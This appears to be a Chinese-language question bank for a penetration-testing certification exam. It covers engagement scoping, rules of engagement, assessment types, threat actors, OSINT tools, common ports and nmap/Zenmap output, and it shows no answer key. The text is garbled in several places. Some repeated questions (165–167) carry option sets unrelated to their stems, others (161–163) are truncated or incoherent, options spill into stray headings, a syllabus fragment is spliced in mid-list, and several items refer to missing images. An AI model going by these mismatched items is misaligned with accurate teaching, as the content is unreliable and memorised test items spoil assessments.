### 131. 你正在进行白盒渗透测试。测试范围规定测试将针对该组织的交换机、路由器和防火墙进行。随着评估接近完成，客户要求你利用剩余时间也测试她的邮件服务器。在这种情况下发生了什么？

1. `Pivoting`（跳板/渗透）
2. `Goal-based testing`（基于目标的测试）
3. `Scope creep`（范围蔓延）
4. `Objectives-based testing`（基于目标的测试）

### 132. 你正在对一个处理信用卡的机构进行渗透测试。客户要求测试基于 `PCI-DSS` 标准。在这种情况下进行的是哪种评估？

1. `Compliance-based assessment`（基于合规性的评估）
2. `Objectives-based assessment`（基于目标的评估）
3. `Red team assessment`（红队评估）
4. `Goals-based assessment`（基于目标的评估）

### 133. 你正在与一个新客户进行渗透测试谈判。在协议中，你包含了这样一条条款：测试结果仅在测试执行期间有效。为什么协议中包含此条款？

1. `渗透测试可能会导致系统离线。`
2. `修复网络可能需要一些时间。`
3. `未来的技术变化可能会暴露目前未知的漏洞。`
4. `渗透测试将使用真实攻击者可以使用的工具和技术。`

### 134. 你正在与一个新客户进行渗透测试谈判。在协议中，你包含了这样一条条款：客户要求的范围和方法会影响测试的完整性。为什么协议中包含此条款？

1. `修复网络可能需要一些时间。`
2. `参与规则和评估类型可能会导致某些漏洞无法被发现。`
3. `渗透测试将使用真实攻击者可以使用的工具和技术。`
4. `参与规则和评估类型应确保所有已知漏洞被识别。`

### 135. 你正在与一个新客户进行渗透测试谈判。他们要求你对他们的网络进行“零知识”测试。你应该执行哪种类型的渗透测试？

1. `Black box`（黑盒）
2. `Grey box`（灰盒）
3. `White box`（白盒）
4. `Compliance based`（基于合规性）

### 136. 你正在与一个新客户进行渗透测试谈判。他们要求你对他们的网络进行“部分知识”测试。你应该执行哪种类型的渗透测试？

1. `Black box`（黑盒）
2. `Grey box`（灰盒）


## 3. 白盒
## 4. 基于目标

### 137. 你正在与一个新客户协商一项即将进行的渗透测试。他们要求你对他们的网络进行“全知识”测试。你应该执行哪种类型的渗透测试？
1. 黑盒
2. 灰盒
3. 白盒 
4. 基于目标

### 138. 你正在与一个新客户为一项即将进行的白盒渗透测试确定范围。他们的网络使用 `IPSec` 部署了网络访问控制（`NAC`）。你的渗透测试人员需要使用哪种技术才能访问受 `NAC` 保护的内部内部网络？
1. 证书固定（Certificate pinning）
2. 会话劫持
3. 中间人攻击
4. 跨站点脚本

### 139. 你在一家渗透测试公司工作。你正在与客户为一项即将进行的渗透测试确定范围。你已经与 `CIO` 合作确定了评估范围，例如在范围内和范围外的系统、将使用的方法、允许的技术以及时间表。你已经准备好了待签署的协议最终草案。应该由谁签署？

1. 适当的签署权限
2. IT 经理
3. CIO
4. 任何帮助台人员都可以签署协议。

### 140. 你在一家渗透测试公司工作。你正在与客户为一项即将进行的渗透测试确定范围。在范围文档中，你包含了一段警告，说明用于此测试的方法和技术可能会导致关键系统离线一段时间。你要求客户确认这是可以接受的。这说明了什么？
1. 评估影响耐度
2. 完整性免责声明
3. 时间点免责声明
4. 完成评估的规则

### 141. 你正在为一项即将进行的渗透测试定义工作规则（`ROE`）。这将是一个白盒评估。你规定目标在测试期间可能不会采用屏蔽或黑名单。你规定目标必须为你提供网络内部访问权限、网络地图和身份验证凭据。你还规定 `SaaS` 服务提供商提供的应用程序在测试期间属于范围内。你需要从谁那里获得执行此测试的书面授权？（选择两个。）
1. 目标组织
2. 互联网分配与数字机构（`ICANN`）
3. 美国互联网数字注册机构（`ARIN`）
4. SaaS 服务提供商
5. 公益注册局（`PIR`）

### 142. 你正在为一项即将进行的渗透测试定义工作规则（`ROE`）。这将是一个白盒评估。这是一项内部测试。不能有第三方参与。以下哪些资源可以被认为在评估范围内？（选择两个。）
1. 邻组织使用的无线网络
2. 他们用于存储加密密钥密钥管理系统
3. 组织的互联网服务提供商（`ISP`）
4. 他们的亚马逊云（`AWS`）内容交付系统
5. 他们的路由器配置

### 143. 你正在为一项即将进行的渗透测试定义工作规则（`ROE`）。这将是一个灰盒评估。这是一项内部测试。在进行评估时，你可能会遇到哪些限制？（选择两个。）
1. 你的网络访问有限。
2. 你会面临内部 IT 员工的阻力。
3. 你的存储访问有限。
4. 你不被允许进入组织的设施。
5. 你不允许在组织的网络基础设施设备（如服务器、路由器和交换机）中运行漏洞扫描。

### 144. 一名安全分析师收到一份即将进行的渗透测试范围大纲。该文档包含了每个项目可以扫描的时间以及 IP 地址。哪份文档包含这些信息？
1. 业务影响分析（`BIA`）
2. 主服务协议（`MSA`）
3. 方案请求（`RFP`）
4. 工作规则（`RoE`）

### 145. 一名安全分析师计划使用黑盒渗透测试。这种策略将为测试人员提供以下哪些内容？
1. 特权凭据
2. 网络图
3. 源代码
4. 无；他们必须自己进行发现。

### 146. 客户要求进行外部网络渗透测试，但在渗透测试人员与客户的讨论过程中，客户不愿意在测试期间将测试人员的源 IP 地址添加到他们的 `IPS` 白名单中。哪种论点最能说明为什么测试人员的源 IP 地址应该在客户的 `IPS` 白名单中？
1. `IPS` 白名单规则需要定期更新以保持最新，应对不断发展的漏洞和新发现的弱点。
2. 对第三方 `IPS` 系统进行渗透测试通常需要额外的授权和文档，这可能会推误时间敏感的测试。
3. 测试应该侧重于通过所有范围内的系统发现潜在的安全问题，而不仅仅是确定如 `IPS` 等主动防御的有效性。
4. 白名单可以防止对 `IPS` 和支持日志监控系统可能的无意 `DoS` 攻击。

### 147. 一名安全分析师试图构建专门的 `XML` 文件，以测试测试期间 Windows 应用程序解析函数的安全性。在开始测试应用程序之前，分析师应该向客户请求以下哪些内容？
1. 协议模糊工具
2. 软件开发工具包（`SDK`）
3. 简单对象协议（`SOAP`）文件样本
4. 表述状态转换（`REST`）应用程序接口（`API`）文档

### 148. 在计划项目时，以下哪些是最重要的？（选择两个。）
1. 架构图
2. 公司政策
3. 目标/目的
4. 报告的存储时间
5. 影响耐度

### 149. 下哪个说法来自客户的公司政策？
1. 公司系统必须使用 `MD5` 哈希算法存储密码
2. 员工密码必须至少包含八个字符，其中一个是字母或数字
3. 联系帮助台执行重置密码的电话号码
4. 为了访问公司资产，员工必须使用强密码

### 150. 你是一名性能测试员，正在讨论为客户执行基于合规性的评估。哪项是重要的关键考虑因素？
1. 任何额外费用
2. 任何政策
3. 行业类型
4. 影响耐度

### 151. 你是一名渗透测试人员，正在与客户讨论在执行渗透测试时保持任何结果机密性的重要性。为什么在执行渗透测试时保持机密性很重要？
1. 结果是包含特权信息的法律文件。
2. 结果可以帮助攻击者破坏系统。
3. 结果通常包含公司的知识产权。
4. 如果结果公开，可能会导致消费者不满。

### 152. 一名渗透测试人员正在测试过程中，此时客户要求测试人员添加更多地址。以下哪项定义了测试人员可以遵循的目标列表？
1. 用户许可协议
2. 主服务协议（`MSA`）
3. 工作规则（`RoE`）
4. 工作说明书（`SOW`）


# 153. 你正计划进行一次安全评估。以下哪项对评估预算有重大影响？

1.  合规性要求
2.  进度安排
3.  范围确定
4.  目标风险

# 154. 一位渗透测试人员受客户要求模仿最近被解雇的服务台技术人员。以下哪项最能描述该威胁者的能力？

1.  高级持续性威胁 (`APT`)
2.  黑客主义者 (`Hacktivist`)
3.  组织犯罪 (`Organized crime`)
4.  脚本小子 (`Script kiddie`)

# 155. 渗透测试人员应随时备有客户的联系方式。以下哪些项是渗透测试人员应立即向客户报告的（选择三项）。

1.  报告任何关键性发现。
2.  报告被破解的密码。
3.  报告无法被利用的发现。
4.  报告入侵指示。
5.  报告最新发布的漏洞利用。
6.  报告变得无响应的服务器。

# 156. 一位客户最近向你表达了担忧，大量公司被寻找贸易机密的远程攻击者所攻破。以下哪项最能描述寻找贸易机密的对手类型？

1.  高级持续性威胁 (`APT`) 成员
2.  黑客主义者团体 (`Hacktivist`)
3.  内部威胁 (`Insider threats`)
4.  脚本小子 (`Script kiddies`)

# 157. 你是一名渗透测试人员，某公司要求你进行 Web 应用渗透测试。该公司要求你发现任何漏洞。现在该公司来找你，询问是否会审查额外的代码并检查防火墙设置的更新。客户要求你做什么？

1.  事后审查
2.  风险接受
3.  范围蔓延 (`Scope creep`)
4.  威胁预防

# 158. 渗透测试人员正准备进行 API 测试。在为本次任务做准备时，以下哪项将最有帮助？

1.  `Nikto`
2.  `Swagger`
3.  Web 存档 (`WAR`)
4.  `W3AF`

# 159. 洛克希德·马丁（Lockheed Martin）开发了情报驱动防御模型的一部分框架，用于识别和防止网络入侵活动。该模型识别了对手为了实现目标必须完成的步骤。该模型被称为网络杀伤链（Cyber Kill Chain）模型，由七部分组成。以下是网络杀伤链的第一阶段，此时攻击者从技术和非技术角度从组织外部评估目标？

1.  利用 (`Exploitation`)
2.  安装 (`Installation`)
3.  侦察 (`Reconnaissance`)
4.  武器化 (`Weaponization`)

# 160. 在网络杀伤链的哪个阶段，攻击者会窃取敏感信息、使用未经授权的计算资源进行拒绝服务攻击或修改信息？

1.  目标达成阶段 (`Actions on Objectives`)
2.  命令与控制阶段 (`Command and Control` phase)
3.  交付阶段 (`Delivery` phase)
4.  探索阶段 (`Exploration` phase)

# 161. 渗透测试人员正在进行一项针对单个 Web 应用的渗透测试。测试人员发现该 Web 服务器还包含一份指向目标位置其他服务器的密码列表。测试人员通知了客户。客户随后要求测试人员验证该测试人员。

1.  威胁狩猎 (`Threat hunting`)
2.  横移动 (`Pivoting`)
3.  范围蔓延 (`Scope creep`)
4.  数据收集 (`Data gathering`)

# 162. 渗透测试人员正在进行一项针对单个 Web 应用的渗透测试。测试人员发现该 Web 服务器还包含一份指向目标位置其他服务器的密码列表。测试人员通知了客户。客户随后要求测试人员验证该测试人员。

1.  基于目标的的评估 (`Goals-based assessments`)
2.  基于合规的评估 (`Compliance-based assessments`)
3.  基于客观的评估 (`Objective-based assessments`)
4.  安全性评估 (`Security assessments`)

# 163. 渗透测试人员正在进行一项针对单个 Web 应用的渗透测试。测试人员发现该 Web 服务器还包含一份指向他人的密码列表。

1.  证书固定 (`Certificate pinning`)
2.  已凭据认证的 (`Credentialed`)
3.  SSL 握手 (`SSL handshake`)
4.  `X509`

# 164. 一位客户最近向你表达了担忧，大量公司被寻找贸易机密的远程攻击者所攻破。以下哪项最能描述寻找贸易机密的对手类型？

1.  脚本小子 (`Script kiddie`)
2.  黑客主义者 (`Hacktivist`)
3.  组织犯罪 (`Organized crime`)
4.  国家级 (`Nation-state`)

# 165. 你是一名渗透测试人员，某公司要求你进行 Web 应用渗透测试。该公司要求你发现任何漏洞。现在该公司来找你，询问是否会审查额外的代码并检查防火墙设置的更新。客户要求你做什么？

1.  已凭据认证的 (`Credentialed`)
2.  第三方授权 (`Third-party authorization`)
3.  容器安全 (`Container security`)
4.  数据所有权 (`Data ownership`)

# 166. 渗透测试人员正准备进行 API 测试。在为本次任务做准备时，以下哪项将最有帮助？

1.  不竞业协议 (`NDA`)
2.  保密协议 (`NDA`)（注：原文此处写为 NDA）
3.  主服务协议 (`MSA`)
4.  工作说明书 (`SOW`)

# 167. 一位客户最近向你表达了担忧，大量公司被寻找贸易机密的远程攻击者所攻破。以下哪项最能描述寻找贸易机密的对手类型？

1.  不竞业协议 (`NDA`)
2.  保密协议 (`NDA`)（注：原文此处写为 NDA）
3.  主服务协议 (`MSA`)
4.  工作说明书 (`SOW`)

# 168. 你是一名渗透测试人员，正在进行一次现场渗透测试。在现场工作时，你需要知道哪个范围要素元素？

1.  加密类型 (`Encryption type`)
2.  无线频率
3.  预共享密钥 (`Preshared keys`)
4.  服务集标识符 (`SSIDs`)


* 脆弱系统/非传统资产

### 2.3 根据给定的场景，分析漏洞扫描结果。
* 资产分类
* 判判定
    * 误报（False positives）
* 漏洞优先级排序
* 常见主题
    * 漏洞
    * 观察
    * 缺乏最佳实践

### 2.4 解释利用信息准备漏洞利用的过程。
* 将漏洞映射到潜在的利用程序
* 优先考虑渗透测试准备活动
* 描述完成攻击的常用技术
    * 代码交叉编译
    * 漏洞利用修改
    * 漏洞链组合
    * 概念验证开发（漏洞开发）
    * 社会工程学
    * 凭据暴力破解
    * 字典攻击
    * 彩虹表
    * 欺骗术

### 2.5 解释与特殊系统相关的缺陷。
* ICS（工业控制系统）
* SCADA（数据采集与监视控制）
* 移动设备
* IoT（物联网）
* 嵌入式
* 销售终端系统（POS）
* 生物识别
* 应用程序容器
* RTOS（实时操作系统）

---

1. 你被要求对一家销售进口摩托车和全地形车（ATVs）的中型企业进行黑盒渗透测试。在本次评估的哪个阶段，你可能会花费大部分时间？
    1. 规划和范围确定
    2. 信息收集和漏洞识别
    3. 攻击与利用
    4. 报告和结果沟通

2. 你正在对一家通过在线商店销售进口摩托车和全地形车的中型企业进行黑盒渗透测试。你需要发现该组织域名的所有者。你应该使用渗透测试工具箱中的哪种工具？
    1. `nslookup`
    2. `whois`
    3. `Shodan`
    4. `Maltego`

3. 你正在对一家通过在线商店销售进口服装的中型企业进行黑盒渗透测试。你需要发现与该组织域名关联的哪些 IP 地址。你应该使用渗透测试工具箱中的哪种工具？
    1. `nslookup`
    2. `whois`
    3. `theHarvester`
    4. `Fingerprinting Organizations with Collected Archives (FOCA)`

4. 你正在对一家通过在线商店销售进口服装的中型企业进行黑盒渗透测试。你想查询搜索引擎和其他资源，以发现电子邮件地址、员工姓名以及关于目标的其他细节。你应该使用渗透测试工具箱中的哪种工具？
    1. `nmap`
    2. `Shodan`
    3. `theHarvester`
    4. `Fingerprinting Organizations with Collected Archives (FOCA)`

5. 你正在对一家在美国批发销售进口电子设备的大型组织进行黑盒渗透测试。你需要利用开源情报（OSINT）发现关于该组织的任何可用信息。你可以使用渗透测试工具箱中的哪种工具来完成此操作？
    1. `Censys`
    2. `whois`
    3. `recon-ng`
    4. `Shodan`
    5. 以上所有

6. 你正在对一家在美国批发销售进口电子设备的大型组织进行黑盒渗透测试。你需要探测组织 Web 服务器的 IP 地址，以查看与其关联的信息，例如 SSL 或 TLS 版本以及它使用的加密套件。你可以使用渗透测试工具箱中的哪种工具来完成此操作？
    1. `Censys`
    2. `nslookup`
    3. `Maltego`
    4. `Shodan`

7. 你正在对一个大型金融组织进行黑盒渗透测试。你想在互联网上搜索与该组织相关的文档（如 Microsoft Word 或 PowerPoint 文档），并分析每个文件的元数据以获取有用信息。你可以使用渗透测试工具箱中的哪种工具来完成此操作？
    1. `Censys`
    2. `Shodan`
    3. `nmap`
    4. `Fingerprinting Organizations with Collected Archives (FOCA)`

8. 一位顾问被组织聘请进行黑盒渗透测试。她知道物联网（IoT）设备经常采用渗透测试人员可以利用的弱安全机制。她想发现目标组织是否部署了此类设备。她可以使用哪种工具来完成此操作？
    1. `Censys`
    2. `Shodan`
    3. `theHarvester`
    4. `Maltego`

9. 一位顾问被组织聘请进行黑盒渗透测试。她使用了多种工具收集有关目标信息的开源情报（OSINT）。她的努力非常成功。事实上，她收集了大量信息，以至于很难将它们整理成可以高效利用的格式。她可以使用哪种工具来组织她收集的信息？
    1. `Censys`
    2. `Shodan`
    3. `theHarvester`
    4. `Maltego`

10. 一位顾问被组织聘请进行黑盒渗透测试。她想对目标面向的 Web 服务器进行详细扫描，以查看可以学到什么。她应该使用哪种工具来完成此任务？
    1. `nmap`
    2. `Shodan`
    3. `whois`
    4. `Maltego`

11. 你被聘请为客户进行黑盒渗透测试。你想使用叉式钓鱼攻击来暴露组织关键员工使用的身份验证凭据。你可以使用哪些工具或技术来收集执行此类攻击所需的信息？（两个）
    1. 翻垃圾桶（Dumpster diving）
    2. `theHarvester`
    3. `nmap scan`
    4. `Nessus scan`
    5. `Shodan`

12. 你被聘请为客户进行黑盒渗透测试。你想使用针对高管的鲸鱼攻击（whaling attack）来暴露领导层使用的身份验证凭据。你可以使用哪些信息来实现此目标？（两个）
    1. `Nessus scan`
    2. 新闻稿
    3. `Censys probe`
    4. `OpenVAS scan`
    5. 高管简介

13. 以下哪些项可以被认为是与目标相关的开源情报（OSINT）？（两个）
    1. 社交媒体帖子
    2. nmap 扫描
    3. 员工安全号
    4. 企业税务文件
    5. 领导层个人税务文件

14. 以下哪些项可以被认为是与目标相关的开源情报（OSINT）？（两个）
    1. Nessus 扫描
    2. 渗透人员进入的信息
    3. 组织的 DNS 注册商信息
    4. 组织网站上的招聘信息
    5. 从不满员工处获得的信息

15. 你正处于黑盒渗透测试的信息收集阶段。你需要通过确定他们使用的网络基础设施对目标组织进行探测。哪些开源源可能提供此类信息？（两个）
    1. 组织网站上的招聘信息
    2. 内部网络的 nmap 扫描
    3. 内部网络的 Nessus 扫描
    4. 渗透人员进入的信息
    5. LinkedIn 上的当前员工简历

16. 你正处于黑盒渗透测试的信息收集阶段。你可以使用哪些工具通过开源情报对目标组织进行探测？（两个）
    1. `aircrack-ng`
    2. `whois` 
    3. `recon-ng`
    4. Kismet
    5. WiFight

17. 请考虑此处命令的输出：



使用哪种开源情报工具收集了这些信息？
    1. `whois`


## 2. `nslookup`

## 3. `nmap`

## 4. `ifconfig`

## 5. `host`

## 18. 考虑此处显示的命令输出：



使用了哪个 OSINT 工具来收集这些信息？

1. `whois`
2. `nslookup`
3. `Nessus`
4. `recon-ng`
5. `host`

## 19. 考虑此处显示的命令输出：



使用了哪个 OSINT 工具来收集这些信息？

1. `whois`
2. `nslookup`
3. `nmap`
4. `recon-ng`
5. `host`

## 20. 你正在执行黑盒渗透测试部分的侦察。你对目标组织的一个公网服务器运行了漏洞扫描，发现端口 `25` 是开放的。这说明了什么？

1. 它是一个 DNS 服务器。
2. 它是一个 SMTP 服务器。
3. 它是一个 FTP 服务器。
4. 它是一个 SMB 文件服务器。

## 21. 你正在执行灰盒渗透测试部分的侦察。你对目标组织的一个内部服务器运行了漏洞扫描，发现端口 `445` 是开放的。这说明了什么？

1. 它是一个 DNS 服务器。
2. 它是一个 HTTPS 服务器。
3. 它是一个 SSH 服务器。
4. 它是一个 SMB 文件服务器。

## 22. 你正在执行灰盒渗透测试部分的侦察。你对目标组织的一个服务器运行了漏洞扫描，发现端口 `23` 是开放的。这说明了什么？

1. 它是一个 DNS 服务器。
2. 它是一个 SSH 服务器。
3. 它是一个 Telnet 服务器。
4. 它是一个 FTP 服务器。

## 23. 你正在执行黑盒渗透测试部分的侦察。你对目标组织的一个公网服务器运行了漏洞扫描，发现端口 `20` 是开放的。这说明了什么？

1. 它是一个 DNS 服务器。
2. 它是一个 FTP 服务器。
3. 它是一个 SSH 服务器。
4. 它是一个 TFTP 服务器。

## 24. 你正在执行灰盒渗透测试部分的侦察。你对目标组织的一个服务器运行了漏洞扫描，发现端口 `69` 是开放的。这说明了什么？

1. 它是一个 DNS 服务器。
2. 它是一个域控制器。
3. 它是一个 SSH 服务器。
4. 它是一个 TFTP 服务器。

## 25. 你正在执行灰盒渗透测试部分的侦察。你对目标组织的一个服务器运行了漏洞扫描，发现有几个端口是开放的，包括 `88`、`135`、`139`、`389` 和 `464`。这说明了什么？

1. 它是一个域控制器。
2. 它是一个 POP3 服务器。
3. 它是一个 SSH 服务器。
4. 它是一个 IMAP 服务器。

## 26. 你正在执行灰盒渗透测试部分的侦察。你对目标组织的一个服务器运行了漏洞扫描，发现端口 `143` 是开放的。这说明了什么？

1. 它是一个 LDAP 服务器。
2. 它是一个 POP3 服务器。
3. 它是一个 SSH 服务器。
4. 它是一个 IMAP 服务器。

## 27. 你正在执行灰盒渗透测试部分的侦察。你对目标组织的一个服务器运行了漏洞扫描，发现端口 `22` 是开放的。这说明了什么？

1. 它是一个 LDAP 服务器。
2. 它是一个 POP3 服务器。
3. 它是一个 SSH 服务器。
4. 它是一个 HTTP 服务器。

## 28. 你正在执行灰盒渗透测试部分的侦察。你对目标组织的一个服务器运行了漏洞扫描，发现端口 `80` 和 `443` 是开放的。这说明了什么？

1. 它是一个 LDAP 服务器。
2. 它是一个 Kerberos 服务器。
3. 它是一个 POP3 服务器。
4. 它是一个 HTTP 服务器。

## 29. 你正在执行灰盒渗透测试部分的侦察。你对目标组织的一个服务器运行了漏洞扫描，发现端口 `389` 和 `636` 是开放的。这说明了什么？

1. 它是一个 LDAP 服务器。
2. 它是一个 Kerberos 服务器。
3. 它是一个域控制器。
4. 它是一个 DNS 服务器。

## 30. 你正在执行灰盒渗透测试部分的侦察。你对目标组织的一个服务器运行了漏洞扫描，发现端口 `53` 是开放的。这说明了什么？

1. 它是一个 NTP 服务器。
2. 它是一个 Kerberos 服务器。
3. 它是一个域控制器。
4. 它是一个 DNS 服务器。

## 31. 在黑盒渗透测试的侦察阶段，你运行 `traceroute` 命令发现目标 Web 服务器的路由。结果如下：



`12`、`13` 和 `14` 意味着什么？

1. 关联设备响应 `ping`。
2. DNS 无法解析关联设备的域名。
3. 关联设备已离线。
4. 计算机被这些设备屏蔽。

## 32. 在黑盒渗透测试的侦察阶段，你使用 `centralops.net`网站对目标域名进行侦察。结果如下：



该域名提供哪些可用服务？（选择两项）

1. FTP
2. 安全邮件
3. 不安全 Web 服务器
4. 安全 Web 服务器
5. 不安全邮件
6. 安全 Shell

## 33. 在黑盒渗透测试的侦察阶段，你使用 `centralops.net` 网站对目标域名进行侦察。结果如下：


以下哪些是正确的？（选择两项）

1. 组织的证书于 2017 年过期。
2. 证书使用了 `SHA1`。
3. 组织使用 `Apache` Web 服务器。
4. 证书使用了 `SHA256`。
5. Web 服务器运行在 Windows 上。

## 34. 在黑盒渗透测试的侦察阶段，你发现了一个怀疑属于高管的邮箱。你使用 `centralops.net` 网站分析该邮箱。结果如下：



你从输出中知道了什么？

1. 这是一个有效的邮箱地址。
2. 这是一个无效的邮箱地址。
3. 该邮箱属于该高管。
4. 该邮箱属于帮助台员工。

## 35. 在黑盒渗透测试的侦察阶段，你发现了一个怀疑属于高管的邮箱。你使用 `centralops.net` 网站分析该邮箱。结果如下：


你从输出中知道了什么？

1. 组织的邮箱服务器 IP 地址为 `208.101.20.81`。
2. 组织的邮箱命名规则为 `first_initial+lastname@company_name.com`。
3. 组织的邮箱命名规则为 `first_initial.lastname@company_name.com`。
4. 组织的邮箱服务器不响应 `HELO` 命令。

## 36. 在黑盒渗透测试的侦察阶段，你发现了一个怀疑属于高管的邮箱。你使用 `centralops.net` 网站分析该邮箱。结果如下：


你从输出中知道了什么？

1. 组织的邮箱服务器 IP 地址为 `208.101.20.106`。
2. 组织的邮箱服务器位于邮件过滤设备之后。
3. 组织的邮箱服务器运行在 Windows 上，且防火墙开放了端口 `80` 和 `443`。


### 4. 该组织的邮件服务器响应 `HELO` 指令。

### 37. 在白盒渗透测试期间，你使用 `nmap` 工具对整个子网进行主机扫描。一旦扫描完成，你需要对发现的系统进行枚举。为了识别发现的每个设备，你需要确定哪些信息？（选择两项。）

1. 已安装的服务
2. 用于执行扫描的 `nmap` 版本
3. 子网中唯一用户的数量
4. 已安装的操作系统版本
5. 用于创建物理网的以太网电缆等级

### 38. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具对目标组织的一个子网上的设备进行枚举和指纹识别。其中一个设备特别引起了你的注意。输出所示：



从这些信息中，你可以学到关于该设备的什么信息？

1. 它是一台 Windows 服务器。
2. 它是一个虚拟机。
3. 它是一个路由器。
4. 它是一个无线网络的接入点。

### 39. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具对目标组织的一个子网上的设备进行枚举和指纹识别。其中一个设备特别引起了你的注意。输出所示：


使用这些信息，你可以学到关于该设备的什么信息？

1. 该设备处于维护模式。
2. 它正在运行一个 HTTP 服务。
3. 它已加入 Windows 域控。
4. 它由无线控制器管理。

### 40. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具对目标组织的一个子网上的设备进行枚举和指纹识别。其中一个设备特别引起了你的注意。输出所示：


使用这些信息，你可以学到关于该设备的什么信息？

1. 设备的默认管理员密码
2. 连接的无线客户端数量
3. 设备控制器的 IP 地址
4. 设备的控制器的品牌和型号

### 41. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具对目标组织的一个子网上的设备进行枚举和指纹识别。其中一个设备特别引起了你的注意。输出所示：



从这些信息中，你可以学到关于该设备的什么信息？

1. 它是一台 Linux 工作站。
2. 它是一台 Linux 服务器。
3. 它是一个移动设备。
4. 它是一台运行嵌入版 Linux 的路由器。

### 42. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具对目标组织的一个子网上的设备进行枚举和指纹识别。其中一个设备特别引起了你的注意。输出所示：



从这些信息中，你可以学到关于该设备的什么信息？

1. 它使用 `NTLM` 协议进行文件共享。
2. 它缺少来自微软的最新更新。
